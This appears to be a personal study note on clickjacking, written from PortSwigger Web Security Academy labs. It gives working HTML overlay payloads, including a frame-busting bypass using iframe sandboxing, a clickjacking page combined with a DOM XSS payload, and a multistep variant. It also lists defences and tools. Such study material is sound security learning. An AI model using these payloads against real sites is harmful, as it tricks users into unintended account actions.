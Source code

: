 >[!question] What it clickjacking?
>Clickjacking (also known as **UI redressing**) is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website.

# Basic clickjacking PoC

```html
<style>
    iframe {
        position:relative;
        width:1000;
        height: 1000;
        opacity: 0.2;
        z-index: 2;
    }
    div {
        position:absolute;
        top:520;
        left:100;
        z-index: 1;
    }
</style>
<div>Click</div>
<iframe src="https://0a17008404af04c0c03c7c5c002800f0.web-security-academy.net/my-account"></iframe>
```

The target website iframe is positioned within the browser so that there is a precise overlap of the target action with the decoy website using appropriate width and height position values. Absolute and relative position values are used to ensure that the target website accurately overlaps the decoy regardless of screen size, browser type and platform.

![](../../zzz_res/attachments/clickjacking1.png)

## Frame busting scripts with prefilled form input

Some preventative techniques are based upon restricting the framing capability for websites. Common client-side protection enacted through the web browser are to use frame busting or frame breaking scripts. These can be implemented via proprietary browser JavaScript add-ons or extensions such as NoScript.

Some common behaviors are:
- check and enforce that the current application window is the main or top window,
- make all frames visible,
- prevent clicking on invisible frames,
- intercept and flag potential clickjacking attacks to the user.

Frame busting techniques are often browser and platform specific and because of the flexibility of HTML they can usually be circumvented by attackers.
An effective attacker workaround against frame busters is to use the HTML5 iframe `sandbox` attribute. When this is set with the `allow-forms` or `allow-scripts` values and the `allow-top-navigation` value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window.

```html
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

PoC:
>[!note]
>to pre-fill data inside forms we can set them using query strings
```html
<style>
    iframe {
        position:relative;
        width:1000;
        height: 1000;
        opacity: 0.2;
        z-index: 2;
    }
    div {
        position:absolute;
        top:470;
        left:100;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe name="victim_frame" sandbox="allow-forms" src="https://0a61008c0335a05dc0e5e05800b700c7.web-security-academy.net/my-account?email=test@test.com"></iframe>
```

## Combining clickjacking with a DOM XSS attack

Assuming that the attacker has first identified the XSS exploit. The XSS exploit is then combined with the iframe target URL so that the user clicks on the button or link and consequently executes the DOM XSS attack.

```html
<iframe name="victim_frame" src="https://0a96001203426ee2c0660906001e008e.web-security-academy.net/feedback?name=<img+src+onerror=print()>&email=a@b.com&subject=xss&message=this+form+is+vulnerable+to+xss"></iframe>
```

## Multistep clickjacking

Attacker manipulation of inputs to a target website may necessitate multiple actions. For example, an attacker might want to trick a user into buying something from a retail website so items need to be added to a shopping basket before the order is placed. These actions can be implemented by the attacker using multiple divisions or iframes.

```html
<style>
	iframe {
		position:relative;
		width:1000;
		height: 1000;
		opacity: 0.2;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:520;
		left:80;
		z-index: 1;
	}
   .secondClick {
		top:300;
		left:200;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="https://0ad700100460cdbcc04ba431007400b0.web-security-academy.net/my-account"></iframe>
```

---

# Protections against clickjacking

- [X-Frame-Options](X-Frame-Options.md)
- [Content Security Policy (CSP)](Content%20Security%20Policy%20(CSP).md)
- [Frame busting](Clickjacking.md#Frame%20busting%20scripts%20with%20prefilled%20form%20input)

---

# Useful tools

- [Burp Clickbandit](https://portswigger.net/burp/documentation/desktop/tools/clickbandit)
